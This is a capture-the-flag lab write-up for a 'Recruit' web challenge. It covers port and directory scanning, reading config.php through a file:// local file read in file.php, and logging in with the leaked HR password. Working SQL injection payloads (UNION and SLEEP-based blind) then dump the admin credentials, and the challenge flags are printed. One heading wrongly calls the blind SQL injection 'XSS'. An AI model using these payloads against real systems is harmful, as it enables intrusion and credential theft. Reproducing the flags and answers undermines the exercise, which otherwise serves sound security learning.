

# Recruit



## Port Scan

Although this is a web-based challenge, I still ran a simple port scan to learn more about the target.

```bash
─$ rustscan -a recruit.thm --ulimit 5000 -- -A -oN nmap.log
...
Open xx.xx.xxx.xxx:22
Open xx.xx.xxx.xxx:53
Open xx.xx.xxx.xxx:80
...
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f4:06:d5:92:45:46:30:25:86:d5:fe:b2:90:83:b3:fe (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDJuxma0vJbQBGyfs832kd333c6d+Aiod3hgeWwgmWDVyt8YUUAkf421yiB7wqJs/IpMb2UI1xs7Tvnce1dl8KYcbqplaa430gBZVUSpkB5FFN/uExWR5+8bZYqVMFx2kpfvLlpcQq6xOx9B5yauNIpfNeRzKB4CWhrfJ6/qFO62TP/Y/Pn1jZOOhHdyg5oVwKH7KdFp+CSLpyMJZlPaxYmw7q4dU6lfo3NL6EgZMar047GoD7Hxu7e0LCPj0sI9b22Lg4dq+6Kcue5TIuG25gQF9sBYlgM1++pWYa/sEXHWVJpjQmz0DknW2dfgH1g2Wg18rUHZyC0s8PZh1iElMOmCh69EYHu1Ro2I704fjX61nyON90sSu7eo48f6JNFM/RNFmdAcoXtZtaoFnx9JDPPmmHxnjl6/qU77FMHA5VpXRi2v2zqTdxjvOr6oRm97K67T2fh2OXwJWAY+YjAXzX/YfhY1CtWEwF+kOgCUCdoDfpjuWuWj2zuDC6VQs0Liyc=
|   256 99:d5:6f:b5:15:05:22:e3:c0:5e:43:5b:dd:09:e0:18 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCEqZWvVL4bsxVRlrdbmEEmfPSgyBFjAstedp3MBtv9n4HywIPyOYdaIZzafSu+U8DXoNwGDY3Sf+DLcHGidtIQ=
|   256 6d:01:db:d9:ce:ca:fd:f8:dd:91:09:13:c1:f3:71:c1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPNndtlMDYj1pyFWB+fA01/oNVSfJcKf4WLVBIBMgxd7
53/tcp open  domain  syn-ack ttl 62 ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Recruit
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Linux 5.X|6.X|4.X (96%), Google Android 10.X|11.X|12.X (93%)
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:4 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/o:linux:linux_kernel:5.4
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 4.15 (96%), Linux 5.4 - 5.15 (96%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%)
No exact OS matches for host (test conditions non-ideal).
```

There are three open ports:

- Port 22: SSH (OpenSSH 8.2p1)
- Port 53: DNS (ISC BIND 9.16.1)
- Port 80: HTTP (Apache httpd 2.4.41)

## API First Visit

The home page shows a Recruit login panel.


After I clicked **Access API**, I noticed a `file.php` endpoint that accepts a URL.


It says it supports HTTP and HTTPS URLs


We can navigate to `file.php`; as expected, it asks for the CV.


However, when I provided an HTTPS URL, it rejected it and said, “Only local files are allowed.”


## HTTP Enumeration

I was pretty confused at that point, so I decided to enumerate the site to see if there was anything interesting. It turns out there was a lot.

```bash
└─$ ffuf -u http://recruit.thm/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://recruit.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 2904ms]
.hta                    [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 2904ms]
.htpasswd               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 3910ms]
assets                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 105ms]
                        [Status: 200, Size: 1417, Words: 283, Lines: 49, Duration: 4939ms]
index.php               [Status: 200, Size: 1417, Words: 283, Lines: 49, Duration: 106ms]
javascript              [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 107ms]
mail                    [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 105ms]
phpmyadmin              [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 107ms]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 107ms]
sitemap.xml             [Status: 200, Size: 1710, Words: 365, Lines: 66, Duration: 114ms]
:: Progress: [4614/4614] :: Job [1/1] :: 367 req/sec :: Duration: [0:00:15] :: Errors: 0 ::
```

## Sitemap.xml

I first took a look at `sitemap.xml`.

```xml
<urlset>
<!-- Public Pages -->
<url>
<loc>http://recruit.thm/</loc>
<changefreq>daily</changefreq>
<priority>1.0</priority>
</url>
<url>
<loc>http://recruit.thm/index.php</loc>
<changefreq>daily</changefreq>
<priority>1.0</priority>
</url>
<!-- API & Documentation -->
<url>
<loc>http://recruit.thm/api.php</loc>
<changefreq>weekly</changefreq>
<priority>0.8</priority>
</url>
<!-- CV Retrieval Service -->
<url>
<loc>http://recruit.thm/file.php</loc>
<changefreq>weekly</changefreq>
<priority>0.6</priority>
</url>
<!-- Mails -->
<url>
<loc>http://recruit.thm/mail/</loc>
<changefreq>monthly</changefreq>
<priority>0.5</priority>
</url>
<!-- Authenticated Pages -->
<url>
<loc>http://recruit.thm/dashboard.php</loc>
<changefreq>weekly</changefreq>
<priority>0.4</priority>
</url>
<url>
<loc>http://recruit.thm/logout.php</loc>
<changefreq>monthly</changefreq>
<priority>0.2</priority>
</url>
<!-- Static Assets -->
<url>
<loc>http://recruit.thm/assets/</loc>
<changefreq>monthly</changefreq>
<priority>0.1</priority>
</url>
<!--

        Notes:
        - Some directories may contain internal documentation or logs.
        - Certain endpoints are intended for internal HR integrations.
        - Access to sensitive data is role-restricted.
    
-->
</urlset>
```

It reveals some endpoints and directories, but most of them are not useful at this point because they require login.

## Mail Logs


Inside the mail directory, there is a log file

```markdown
May 14 09:32:11 recruit-server postfix/smtpd[2143]: connect from hr-workstation.local[10.10.5.23]
May 14 09:32:12 recruit-server postfix/smtpd[2143]: 4F1A2203F: client=hr-workstation.local[10.10.5.23]
May 14 09:32:13 recruit-server postfix/cleanup[2146]: 4F1A2203F: message-id=<20240514093213.4F1A2203F@recruit.local>
May 14 09:32:13 recruit-server postfix/qmgr[1789]: 4F1A2203F: from=<hr@recruit.thm>, size=1824, nrcpt=1 (queue active)
May 14 09:32:14 recruit-server postfix/local[2151]: 4F1A2203F: to=<it-support@recruit.local>, relay=local, delay=0.34, status=sent

------------------------------------------------------------
From: HR Team <hr@recruit.thm>
To: IT Support <it-support@recruit.thm>
Date: Tue, 14 May 2024 09:32:10 +0000
Subject: Recruitment Portal Deployment Confirmation

Hi Team,

Just a quick update to confirm that the new Recruitment Portal
has been deployed successfully and is functioning as expected.

We’ve completed basic validation:
- Login page is accessible
- Candidate dashboard loads correctly
- API documentation page is live

As discussed during deployment:
- HR login credentials (username: hr) are currently stored in the application
  configuration file (config.php) for ease of access during
  the initial rollout phase.
- Administrator credentials are NOT stored in the application
  files and are securely maintained within the backend database.

Please let us know if there are any issues or if further changes
are required.

Thanks,
HR Operations
Recruitment Team
------------------------------------------------------------

May 14 09:32:14 recruit-server postfix/qmgr[1789]: 4F1A2203F: removed

```

The log file reveals that there is a `hr` account, and the password is stored in `config.php`.

## Revisit API

Now that I knew I needed `config.php`, I tried a few different attacks to reach `config.php` (or even just `file.php`), including SSRF, path traversal, and PHP filters, but none of them worked.

```bash
─$ curl http://recruit.thm/file.php?cv=http://127.0.0.1/file.php
Only local files are allowed

─$ curl http://recruit.thm/file.php?cv=../../../../etc/hosts
Only local files are allowed

└─$ curl http://recruit.thm/file.php?cv=php://filter/read=convert.base64-encode/resource=file.php                                                                                                                                         
Only local files are allowed
```

I finally tried `file://` after wasting a lot of time, and it worked

```php
└─$ curl http://recruit.thm/file.php?cv=file://file.php                                                                                                                                           
<?php
if (!isset($_GET['cv'])) {
    die('Missing cv parameter');
}

$cv = $_GET['cv'];

/*
|--------------------------------------------------------------------------
| Allow only local file access
|--------------------------------------------------------------------------
*/
if (strpos($cv, 'file://') !== 0) {
    die('Only local files are allowed');
}

/*
|--------------------------------------------------------------------------
| Convert file:// to filesystem path
|--------------------------------------------------------------------------
*/
$filePath = str_replace('file://', '', $cv);

/*
|--------------------------------------------------------------------------
| Resolve real path to prevent traversal
|--------------------------------------------------------------------------
*/
$realPath = realpath($filePath);

/*
|--------------------------------------------------------------------------
| Restrict access to /var/www/html only
|--------------------------------------------------------------------------
*/
$allowedBase = '/var/www/html';

if ($realPath === false || strpos($realPath, $allowedBase) !== 0) {
    die('Access denied');
}

/*
|--------------------------------------------------------------------------
| Display file contents
|--------------------------------------------------------------------------
*/
header('Content-Type: text/plain');
echo file_get_contents($realPath);

```

So it only allows `file://`.

Now we can finally take a look at `config.php`

```php
└─$ curl http://recruit.thm/file.php?cv=file://config.php                                                                                                                                                                                   
<?php

/*
|--------------------------------------------------------------------------
| Application Configuration
|--------------------------------------------------------------------------
*/

$APP_NAME        = 'Recruit';
$APP_ENV         = 'production';
$APP_VERSION     = '1.2.4';
$APP_DEBUG       = false;

/*
|--------------------------------------------------------------------------
| HR Credentials (Temporary – Initial Rollout Phase)
|--------------------------------------------------------------------------
| NOTE:
| These credentials are stored here temporarily for ease of access
| during the initial deployment and will be moved to the database
| in a future release.
*/

$HR_PASSWORD = 'hrpassword123';

/*
|--------------------------------------------------------------------------
| API Configuration
|--------------------------------------------------------------------------
*/

$API_ENABLED     = true;
$API_VERSION     = 'v1';

?>

```

## Login as hr

With `hr:hrpassword123`, we can finally log in and get the user flag.


User Flag: `THM{LOGGED_IN_USER}`

## SQL Injection

### Learning the Database Name

On the dashboard, we can see a search bar, and it accepts SQL queries.

Using `' UNION SELECT 1,2,3,database();#`, we know the name of the database is `recruit_db`


<aside>
💡

Avoid using `--` in this challenge, as the `%'` at the end will cause error. Use `#` instead


</aside>

### Learning the Database Name (Blind XSS)

Because I was using `--` at the beginning, `database()` could not show the database name. So I thought I needed to do blind extraction, which ended up taking a lot of time :(

I first successfully fuzzed that the first letter is `r` using: `' UNION SELECT SLEEP(5),2,3,4 WHERE database() LIKE "r%";--`


Then, I figured out the second character was `e` using:

`' UNION SELECT SLEEP(5),2,3,4 WHERE database() LIKE "re%";--`


The third character is `c`: `' UNION SELECT SLEEP(5),2,3,4 WHERE database() LIKE "rec%";--`


At this point I already know it contains `recruit`: `' UNION SELECT SLEEP(5),2,3,4 WHERE database() LIKE "recruit%";--`


But that was not the end. I knew they would add `_`, and I was right.

`' UNION SELECT SLEEP(5),2,3,4 WHERE database() LIKE "recruit_%";--`


After that, it is `d`: `' UNION SELECT SLEEP(5),2,3,4 WHERE database() LIKE "recruit_d%";--`


At this point, I finally know the full name is `recruit_db`: `' UNION SELECT SLEEP(5),2,3,4 WHERE database() LIKE "recruit_db";--`


### Getting the Tables

At this point, I finally realize it can render correct, so I can know all the tables using: `' UNION SELECT 1,2,3,group_concat(table_name) from information_schema.tables where table_schema = "recruit_db";--`


### Getting the Credentials

There are two tables: `candidates` and `users`.

The `candidates` table as expected contains no credentials. We can check it using: 

`' UNION SELECT 1,2,3,group_concat(column_name) from information_schema.columns where table_name = "candidates";#`


So I used `' UNION SELECT 1,2,3,group_concat(column_name) from information_schema.columns where table_name = "users";--` to check the `users` table, and we can see the password column.


So we can finally grab the admin password using `' UNION SELECT 1,id,username, password from users where username = "admin";--`


With this, we know the admin credentials are `admin:admin@001admin`.

## Admin Login


Admin Flag: `THM{LOGGED_IN_ADM1N1}`
